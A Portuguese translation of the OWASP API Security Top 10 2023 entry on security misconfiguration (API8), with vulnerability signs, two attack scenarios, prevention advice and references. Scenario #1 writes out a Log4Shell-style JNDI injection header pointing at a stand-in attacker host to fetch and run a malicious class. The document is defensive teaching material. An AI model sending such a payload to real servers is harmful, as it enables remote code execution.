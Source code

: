 # API8:2023 Security Misconfiguration

| Agentes Ameaça/Vetores Ataque | Falha Segurança | Impactos |
| - | - | - |
| Específico da API : Abuso **Fácil** | Prevalência **Predominante** : Detectability **Fácil** | Técnico **Severo** : Específico do Negócio |
| Os atacantes frequentemente tentam encontrar falhas não corrigidas, _endpoints_ comuns, serviços a funcionar com configurações padrão inseguras ou arquivos e diretórios não protegidos para obter acesso não autorizado ou conhecimento do sistema. A maior parte disto é conhecimento público e os _exploits_ podem estar disponíveis. | A má configuração de segurança pode ocorrer em qualquer nível da API, desde o nível da rede até o nível da aplicação. Ferramentas automatizadas estão disponíveis para detectar e explorar más configurações, como serviços desnecessários ou opções antigas. | As más configurações de segurança não expõem apenas dados sensíveis dos utilizadores, mas também detalhes do sistema que podem levar a um compromisso total do servidor. |

## A API é vulnerável?

A API pode ser vulnerável se:

* As devidas proteções de segurança não foram aplicadas em qualquer parte da
  API, ou se houver permissões mal configuradas em serviços de nuvem.
* Os últimos _patches_ de segurança estão em falta ou os sistemas estão
  desatualizados.
* Funcionalidades desnecessárias estão ativadas (por exemplo, verbos HTTP,
  funcionalidades de registo de eventos).
* Existem discrepâncias na forma como os pedidos são processados pelos
  servidores na cadeia de servidores HTTP.
* A Segurança da Camada de Transporte (TLS) está em falta.
* Diretivas de segurança ou de controlo de cache não são enviadas aos clientes.
* Uma política de Partilha de Recursos entre Origens (CORS) está em falta ou mal
  configurada.
* As mensagens de erro incluem _stack traces_ ou expõem outras informações
  sensíveis.

## Exemplos de Cenários de Ataque

### Cenário #1

Um servidor de API _back-end_ mantém um registo de acesso escrito por uma 
utilidade de registo _open-source_ popular de terceiros, com suporte para 
expansão de espaços reservados e pesquisas JNDI (Java Naming and Directory 
Interface), ambos ativados por defeito. Para cada pedido, uma nova entrada é 
escrita no ficheiro de registo com o seguinte padrão: 
`<method> <api_version>/<path> - <status_code>`.

Um ator malicioso emite o seguinte pedido de API, que é escrito no ficheiro de
registo de acesso:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Devido à configuração padrão insegura da utilidade de registo e a uma política 
de rede de saída permissiva, para escrever a entrada correspondente no registo 
de acesso, ao expandir o valor no cabeçalho `X-Api-Version` do pedido, a 
utilidade de registo irá buscar e executar o objeto `Malicious.class` do 
servidor controlado remotamente pelo atacante.

### Cenário #2

Um site de rede social oferece uma funcionalidade de "Mensagem Direta" que 
permite aos utilizadores manter conversas privadas. Para recuperar novas 
mensagens de uma conversa específica, o site emite o seguinte pedido de API (a 
interação do utilizador não é necessária):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Como a resposta da API não inclui o cabeçalho de resposta HTTP `Cache-Control`, 
as conversas privadas acabam por ser armazenadas em cache pelo navegador, 
permitindo que agentes mal-intencionados as recuperem dos ficheiros de cache do 
navegador no sistema de ficheiros.

## Como Prevenir

O ciclo de vida da API deve incluir:

* Um processo de proteção reprodutível que possa ser implantado de forma fácil
  e rápida com vista a um ambiente de execução devidamente protegido.
* Um processo de revisão e atualização de todas as camadas da API. A revisão
  deve incluir: ficheiros de orquestração, componentes da API e serviços na
  nuvem (e.g., permissões dos _buckets_ S3).
* Um processo automatizado para verificar de forma continua as configurações e
  definições em todos os ambientes (produção, _staging_, testes,
  desenvolvimento).

E ainda:

* Assegure que todas as comunicações de API, do cliente para o servidor de API e
  qualquer componente _downstream_/_upstream_, ocorram através de um canal de
  comunicação encriptado (TLS), independentemente de se tratar de uma API
  interna ou pública.
* Seja específico sobre quais verbos HTTP cada API pode utilizar: todos os
  outros verbos HTTP devem ser desativados (por exemplo, HEAD).
* As APIs que esperam ser acedidas a partir de clientes baseados em navegador
  (por exemplo, aplicação web _front-end_) devem, pelo menos:
    * implementar uma política adequada de Partilha de Recursos entre Origens
      (CORS).
    * incluir os Cabeçalhos de Segurança aplicáveis.
* Restrinja os tipos de conteúdo/formatos de dados recebidos àqueles que cumprem
  os requisitos funcionais/de negócio.
* Assegure que todos os servidores na cadeia de servidores HTTP (por exemplo,
  balanceadores de carga, proxies reversos e diretos, e servidores de
  _back-end_) processem os pedidos de entrada de forma uniforme para evitar
  problemas de dessincronização.
* Quando aplicável, defina e faça cumprir todos os esquemas de dados de resposta
  da API, incluindo respostas de erro, para evitar que informações de exceções e
  outras informações valiosas sejam enviadas para os atacantes.

## Referências

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### Externas

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
